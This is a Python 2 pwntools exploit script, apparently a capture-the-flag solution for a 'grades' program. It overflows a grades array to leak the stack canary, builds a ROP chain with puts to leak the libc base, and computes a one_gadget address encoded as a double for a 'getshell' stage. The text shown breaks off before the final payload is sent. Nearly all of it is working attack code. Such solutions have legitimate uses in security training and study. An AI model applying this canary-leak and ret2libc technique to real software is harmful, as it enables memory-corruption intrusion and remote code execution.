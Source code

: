 ```python
uu64    = lambda                    :u64(p.recvuntil("\x7f")[-6:].ljust(8,"\x00"))
lg      = lambda name,data          :p.success(name + "-> 0x%x" % data)

def cmd(choice):
	sla("> ",choice)
# gdb.attach(p)
# leak canary
main =0x401108
cmd(2)
sla("Number of grades: ",36)
for i in range(1,34):
	sla("Grade ["+str(i)+"]: ",0)

sla("Grade [34]: ",None)

sla("Grade [36]: ",2.074507e-317)
p.recvuntil("Your new average is: ")
canary = int(p.recvuntil(".00")[:-3],10)*36
print canary

# leak libc
pop_rdi = 0x0000000000401263
puts_plt = elf.plt['puts']
lg("puts_plt",puts_plt)
puts_got = elf.got['puts']
lg("puts_got",puts_got)

sla("Number of grades: ",39)
for i in range(1,34):
	sla("Grade ["+str(i)+"]: ",0)
sla("Grade [34]: ",canary)
sla("Grade [35]: ",0)
sla("Grade [36]: ",2.074587e-317)
sla("Grade [37]: ",3.112396e-317)
sla("Grade [38]: ",2.0730836e-317)
sla("Grade [39]: ",2.0744156e-317)
# gdb.attach(p)
# sla("Grade [40]: ",None)
p.recvuntil("Your new average is: ")
p.recvuntil("\n")
libc_base = u64(p.recv(6)+'\x00'*2)-libc.sym['puts']
lg("libc_base",libc_base)
one = libc_base+0x4f2a5
lg("one",one)
one = '0000'+str(hex(one)[-12:])
print one

def hex_to_double(h):
	i = int(h,16)
	return struct.unpack('<d',struct.pack('<Q', i))[0]

one = hex_to_double(one)
print one

# getshell
cmd(2)
sla("Number of grades: ",36)
for i in range(1,34):
	sla("Grade ["+str(i)+"]: ",0)

sla("Grade [34]: ",canary)
sla("Grade [35]: ",0)
gdb.attach(p)
```